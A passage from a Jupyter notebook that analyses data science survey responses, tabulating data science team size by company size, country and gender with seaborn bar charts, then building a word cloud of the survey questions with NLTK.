size_by_ds.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True) 

In [0]:
size_by_ds = size_by_ds[size_by_ds.Q6 != 0]
size_by_ds = size_by_ds[size_by_ds.Q7 != 0]
size_by_ds['Q7'] = size_by_ds['Q7'].apply(func)

In [0]:
size_by_ds['Q7'].value_counts()


20+      5
10-14    5
0        5
1-2      5
5-9      5
3-4      5
15-19    5
Name: Q7, dtype: int64

In [0]:
####
s1 = size_by_ds[size_by_ds['Q6'] == '0-49 employees']
s2 = size_by_ds[size_by_ds['Q6'] == '50-249 employees']
s3 = size_by_ds[size_by_ds['Q6'] == '250-999 employees']
s4 = size_by_ds[size_by_ds['Q6'] == '1000-9,999 employees']
s5 = size_by_ds[size_by_ds['Q6'] == '> 10,000 employees']


In [0]:
s1

,Q6,Q7,Frequency
0,0-49 employees,0,840
1,0-49 employees,1-2,1650
2,0-49 employees,10-14,110
3,0-49 employees,15-19,35
4,0-49 employees,20+,65
5,0-49 employees,3-4,790
6,0-49 employees,5-9,384


In [0]:
# s1.sort_values('Frequency', inplace=True)
# s2.sort_values('Frequency', inplace=True)
# s3.sort_values('Frequency', inplace=True)
# s4.sort_values('Frequency', inplace=True)
# s5.sort_values('Frequency', inplace=True)
# s6.sort_values('Frequency', inplace=True)
# s7.sort_values('Frequency', inplace=True)

In [0]:
size_by_ds = pd.concat([s1,s2,s3,s4,s5])

In [0]:
size_by_ds

,Q6,Q7,Frequency
0,0-49 employees,0,840
1,0-49 employees,1-2,1650
2,0-49 employees,10-14,110
3,0-49 employees,15-19,35
4,0-49 employees,20+,65
5,0-49 employees,3-4,790
6,0-49 employees,5-9,384
21,50-249 employees,0,308
22,50-249 employees,1-2,553
23,50-249 employees,10-14,180




In [0]:
####
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(30,30))

plt.xticks(size_by_profession.index, size_by_ds.Q6.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q6", y="Frequency", hue="Q7", data=size_by_ds)
ax.legend(fontsize=20)
ax.set_title('Distribution of number of data science individuals by company size',fontsize=20)
ax.set(xlabel='Size of company', ylabel='Number of data science individuals in the company')
chartBox = ax.get_position()
ax.set_position([chartBox.x0, chartBox.y0, chartBox.width*0.6, chartBox.height])
ax.legend(loc='upper center', bbox_to_anchor=(0.5,1), shadow=True, ncol=1)
plt.show()

In [0]:
#country,company size and distribution of individual involved
#Let's consider the top 5 countries from where maximum survey participants

size_by_ds_country = req.groupby(['Q3','Q6','Q7'],as_index=False).count().reset_index().loc[:,'Q3':'Time from Start to Finish (seconds)']

In [0]:
size_by_ds_country.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True) 
size_by_ds_country

,Q3,Q6,Q7,Frequency
0,Algeria,0-49 employees,0,5
1,Algeria,0-49 employees,1-2,7
2,Algeria,0-49 employees,3-4,1
3,Algeria,"1000-9,999 employees",0,1
4,Algeria,"1000-9,999 employees",1-2,1
...,...,...,...,...
1576,Viet Nam,50-249 employees,5-9,4
1577,Viet Nam,"> 10,000 employees",1-2,1
1578,Viet Nam,"> 10,000 employees",10-14,1
1579,Viet Nam,"> 10,000 employees",15-19,1


In [0]:
size_by_ds_country = size_by_ds_country[size_by_ds_country.Q6 != 0]
size_by_ds_country = size_by_ds_country[size_by_ds_country.Q7 != 0]
size_by_ds_country['Q7'] = size_by_ds_country['Q7'].apply(func)

In [0]:
size_by_ds_country.reset_index(drop=True)

,Q3,Q6,Q7,Frequency
0,Algeria,0-49 employees,0,5
1,Algeria,0-49 employees,1-2,7
2,Algeria,0-49 employees,3-4,1
3,Algeria,"1000-9,999 employees",0,1
4,Algeria,"1000-9,999 employees",1-2,1
...,...,...,...,...
1576,Viet Nam,50-249 employees,5-9,4
1577,Viet Nam,"> 10,000 employees",1-2,1
1578,Viet Nam,"> 10,000 employees",10-14,1
1579,Viet Nam,"> 10,000 employees",15-19,1


In [0]:
#Taking mean of each category to get effective number of data science individuals
def func2(line):
    if line == '0':
        line = float(0)
    elif line == '1-2':
        line = float(1.5)
    elif line == '3-4':
        line = float(3.5)
    else:
        line = 12
    return line

size_by_ds_country['Q7'] = size_by_ds_country['Q7'].apply(func2)

In [0]:
size_by_ds_country['Q7']

0        0.0
1        1.5
2        3.5
3        0.0
4        1.5
        ... 
1576    12.0
1577     1.5
1578    12.0
1579    12.0
1580     3.5
Name: Q7, Length: 1581, dtype: float64

In [0]:
size_by_ds_country['Effective_Frequency'] = size_by_ds_country.Q7*size_by_ds_country.Frequency

In [0]:
sdc = size_by_ds_country.groupby(['Q3','Q6'],as_index=False)[['Effective_Frequency']].sum()

In [0]:
sdc['Q3'].value_counts()

Portugal                                                5
Brazil                                                  5
Peru                                                    5
Russia                                                  5
Kenya                                                   5
Iran, Islamic Republic of...                            5
Japan                                                   5
Hong Kong (S.A.R.)                                      5
Singapore                                               5
Taiwan                                                  5
South Africa                                            5
South Korea                                             5
Philippines                                             5
Bangladesh                                              5
Norway                                                  5
Spain                                                   5
Greece                                                  5
Ukraine       

In [0]:
##TOP 5 COUNTRIES ----> INDIA, UNITED STATES OF AMERICA, OTHER, BRAZIL, JAPAN, RUSSIA, CHINA, GERMANY
##India 
india = sdc[(sdc.Q3 == 'India') | (sdc.Q3 == 'United States of America')| (sdc.Q3 == 'China')| (sdc.Q3 == 'Brazil')| (sdc.Q3 == 'Japan')| (sdc.Q3 == 'Russia')|(sdc.Q3 == 'Germany')]

In [0]:
india

,Q3,Q6,Effective_Frequency
35,Brazil,0-49 employees,456.5
36,Brazil,"1000-9,999 employees",877.0
37,Brazil,250-999 employees,571.5
38,Brazil,50-249 employees,445.5
39,Brazil,"> 10,000 employees",1129.5
50,China,0-49 employees,216.0
51,China,"1000-9,999 employees",300.5
52,China,250-999 employees,320.5
53,China,50-249 employees,426.5
54,China,"> 10,000 employees",532.0




In [0]:
####
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(20,10))

plt.xticks(india.index, india.Q6.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q3", y="Effective_Frequency", hue="Q6", data=india)
ax.legend(fontsize=20)
ax.set_title('Distribution of number of data science individuals by company size in India',fontsize=20)
ax.set(xlabel='COUNTRY', ylabel='Number of DATA SCIENCE individuals in the company')
chartBox = ax.get_position()
ax.set_position([chartBox.x0, chartBox.y0, chartBox.width*0.6, chartBox.height])
ax.legend(loc='upper center', bbox_to_anchor=(0.5,1), shadow=True, ncol=1)
plt.show()

In [0]:
####DISTRIBUTION OF SURVEY TAKEN BY PROFESSION OF THE INDIVIDUALS AND COUNTRY
#########DISTRIBUTION OF SURVEY TAKEN BY AGE GROUP, GENDER, COUNTRY, PROFESSION(INTERMIX THESE 4 AND TRY TO FIND TRENDS)
gender_by_country = req.groupby(['Q2','Q3'],as_index=False).count().reset_index().loc[:,'Q2':'Time from Start to Finish (seconds)']

In [0]:
gender_by_country.rename(columns = {'Time from Start to Finish (seconds)':'Frequency'}, inplace = True) 

In [0]:
gender_by_country = gender_by_country[(gender_by_country.Q2 == 'Female') | (gender_by_country.Q2 == 'Male')]



In [0]:
####from pre-liminary visual analysis of the plot, higher proportion of female participants in Brazil, Canada, China, Germany
import seaborn as sns
fig, ax = plt.subplots(1, 1, figsize=(40,60))

plt.xticks(gender_by_country.index, gender_by_country.Q3.str.upper(), rotation=60, horizontalalignment='right', fontsize=20)
sns.set(style="whitegrid")
tips = sns.load_dataset("tips")
ax = sns.barplot(x="Q3", y="Frequency", hue="Q2", data=gender_by_country)
ax.legend(fontsize=20)
ax.set_title('Distribution of gender of participant by country',fontsize=20)
ax.set(xlabel='COUNTRY', ylabel='Number of DATA SCIENCE individuals in the company')
chartBox = ax.get_position()
ax.set_position([chartBox.x0, chartBox.y0, chartBox.width*0.6, chartBox.height])
ax.legend(loc='upper center', bbox_to_anchor=(0.5,1), shadow=True, ncol=1)
plt.show()

In [0]:
#Calculate percentage of male and female participants in survey from each country...
gender_by_country

,Q2,Q3,Frequency
0,Female,Algeria,12
1,Female,Argentina,13
2,Female,Australia,44
3,Female,Austria,5
4,Female,Bangladesh,7
...,...,...,...
113,Male,Turkey,218
114,Male,Ukraine,156
115,Male,United Kingdom of Great Britain and Northern I...,379
116,Male,United States of America,2387


In [0]:
##groupby gender and profession....profession and country.... gender, profession and country
gender_by_profession = req.groupby(['Q2','Q3'],as_index=False).count().reset_index().loc[:,'Q2':'Time from Start to Finish (seconds)']

In [0]:
gender_by_profession

,Q2,Q3,Time from Start to Finish (seconds)
0,Female,Algeria,12
1,Female,Argentina,13
2,Female,Australia,44
3,Female,Austria,5
4,Female,Bangladesh,7
...,...,...,...
171,Prefer to self-describe,Russia,4
172,Prefer to self-describe,Spain,1
173,Prefer to self-describe,Turkey,1
174,Prefer to self-describe,United Kingdom of Great Britain and Northern I...,6


Natural Language Processing

In [0]:
question.head()

,Time from Start to Finish (seconds),Q1,Q2,Q3,Q4,Q5,Q6,Q7,Q8,Q9,Q10,Q11,Q12,Q13,Q14,Q15,Q16,Q17,Q18,Q19,Q20,Q21,Q22,Q23,Q24,Q25,Q26,Q27,Q28,Q29,Q30,Q31,Q32,Q33,Q34
0,Duration (in seconds),What is your age (# years)?,What is your gender? - Selected Choice,In which country do you currently reside?,What is the highest level of formal education ...,Select the title most similar to your current ...,What is the size of the company where you are ...,Approximately how many individuals are respons...,Does your current employer incorporate machine...,Select any activities that make up an importan...,What is your current yearly compensation (appr...,Approximately how much money have you spent on...,Who/what are your favorite media sources that ...,On which platforms have you begun or completed...,What is the primary tool that you use at work ...,How long have you been writing code to analyze...,Which of the following integrated development ...,Which of the following hosted notebook product...,What programming languages do you use on a reg...,What programming language would you recommend ...,What data visualization libraries or tools do ...,Which types of specialized hardware do you use...,Have you ever used a TPU (tensor processing un...,For how many years have you used machine learn...,Which of the following ML algorithms do you us...,Which categories of ML tools do you use on a r...,Which categories of computer vision methods do...,Which of the following natural language proces...,Which of the following machine learning framew...,Which of the following cloud computing platfor...,Which specific cloud computing products do you...,Which specific big data / analytics products d...,Which of the following machine learning produc...,Which automated machine learning tools (or par...,Which of the following relational database pro...


In [0]:
question.transpose().head()

,0
Time from Start to Finish (seconds),Duration (in seconds)
Q1,What is your age (# years)?
Q2,What is your gender? - Selected Choice
Q3,In which country do you currently reside?
Q4,What is the highest level of formal education ...


In [0]:
q = question.transpose()
q.columns =['Content'] 
q.head()

,Content
Time from Start to Finish (seconds),Duration (in seconds)
Q1,What is your age (# years)?
Q2,What is your gender? - Selected Choice
Q3,In which country do you currently reside?
Q4,What is the highest level of formal education ...


In [0]:
import nltk
nltk.download('stopwords')

stopwords = nltk.corpus.stopwords.words('english')
new_words=('selected','select','basic','follow','current','highest','formal','choice','follow', 'use', 'regular')
for i in new_words:
    stopwords.append(i)
print(stopwords)
a = list(stopwords)

[nltk_data] Downloading package stopwords to /root/nltk_data...
[nltk_data]   Unzipping corpora/stopwords.zip.
['i', 'me', 'my', 'myself', 'we', 'our', 'ours', 'ourselves', 'you', "you're", "you've", "you'll", "you'd", 'your', 'yours', 'yourself', 'yourselves', 'he', 'him', 'his', 'himself', 'she', "she's", 'her', 'hers', 'herself', 'it', "it's", 'its', 'itself', 'they', 'them', 'their', 'theirs', 'themselves', 'what', 'which', 'who', 'whom', 'this', 'that', "that'll", 'these', 'those', 'am', 'is', 'are', 'was', 'were', 'be', 'been', 'being', 'have', 'has', 'had', 'having', 'do', 'does', 'did', 'doing', 'a', 'an', 'the', 'and', 'but', 'if', 'or', 'because', 'as', 'until', 'while', 'of', 'at', 'by', 'for', 'with', 'about', 'against', 'between', 'into', 'through', 'during', 'before', 'after', 'above', 'below', 'to', 'from', 'up', 'down', 'in', 'out', 'on', 'off', 'over', 'under', 'again', 'further', 'then', 'once', 'here', 'there', 'when', 'where', 'why', 'how', 'all', 'any', 'both', 'ea

In [0]:
def create_Word_Corpus(df):
    words_corpus = ''
    for val in df["Content"]:
        text = val.lower()
        tokens = nltk.word_tokenize(text)
        tokens = [word for word in tokens if word not in string.punctuation]
        tokens = [word for word in tokens if word not in a]
        tokens = stemming(tokens)
        for words in tokens:
            words_corpus = words_corpus + words + ' '
    return words_corpus

In [0]:
def plot_Cloud(wordCloud):
    plt.figure( figsize=(20,10), facecolor='k')
    plt.imshow(wordCloud)
    plt.axis("off")
    plt.tight_layout(pad=0)
    plt.show()
#     plt.savefig('wordclouds.png', facecolor='k', bbox_inches='tight')

In [0]:
def stemming(tokens):
    ps=PorterStemmer()
    stem_words=[]
    for x in tokens:
        stem_words.append(ps.stem(x))
    return stem_words

In [0]:
# importing all the required Libraries
import glob
import json
import csv
import pandas as pd
import numpy as np
from wordcloud import WordCloud
import nltk
nltk.download('punkt')
from nltk.corpus import stopwords
from nltk.tokenize import sent_tokenize, word_tokenize
from textblob import TextBlob
from textblob.sentiments import NaiveBayesAnalyzer
import string
import matplotlib.pyplot as plt
from nltk.stem import PorterStemmer
import warnings
warnings.filterwarnings("ignore")
question_wordcloud = WordCloud(width=900, height=500).generate(create_Word_Corpus(q))

[nltk_data] Downloading package punkt to /root/nltk_data...
[nltk_data]   Unzipping tokenizers/punkt.zip.




In [0]:
plot_Cloud(question_wordcloud)

We can check that questioner is interested in data science and machine learning.